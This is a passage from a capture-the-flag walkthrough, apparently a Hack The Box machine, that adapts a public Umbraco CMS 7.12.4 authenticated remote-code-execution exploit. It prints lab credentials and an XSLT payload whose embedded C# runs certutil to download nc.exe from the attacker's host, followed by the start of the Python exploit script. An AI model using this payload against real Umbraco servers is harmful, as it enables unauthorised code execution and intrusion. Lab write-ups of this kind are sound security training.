 Let's modify this exploit so we can use it. First, I update the target information block:

```python
login = "admin@local.htb";
password="baconandcheese";
host = "http://10.10.10.180";
```

Then I do some research on XML-embedded C# remote code execution attacks and find [this article](https://zerosum0x0.blogspot.com/2016/05/xml-attack-for-c-remote-code-execution.html). I modify the exploit to follow its style. After some trial and error, this payload lets me upload a compiled version of `nc.exe` to the remote machine:

```xml
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators
# Dork: N/A
# Date: 2019-01-13
# Exploit Author: Gregory DRAPERI & Hugo BOUTINON
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# CVE: N/A


import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());
    
print("Start");

payload = """<?xml version="1.0"?><xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="csharp_user">
public string xml()
{ string cmd = "/c certutil.exe -urlcache -split -f http://10.10.14.31/nc.exe c:/windows/temp/nc.exe";
System.Diagnostics.Process proc = new System.Diagnostics.Process();
 proc.StartInfo.FileName = "cmd.exe";
 proc.StartInfo.Arguments = cmd;
 proc.StartInfo.UseShellExecute = false;
 proc.StartInfo.RedirectStandardOutput = true;
 proc.Start();
 string output = proc.StandardOutput.ReadToEnd();
 return output;Console.WriteLine(output); } 
 </msxsl:script>
 <xsl:template match="/">
 <xsl:value-of select="csharp_user:xml()"/>
 </xsl:template>
 </xsl:stylesheet> """;

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";

# Step 1 - Get Main page
s = requests.session()
url_main =host+"/umbraco/";
r1 = s.get(url_main);
print_dict(r1.cookies);
```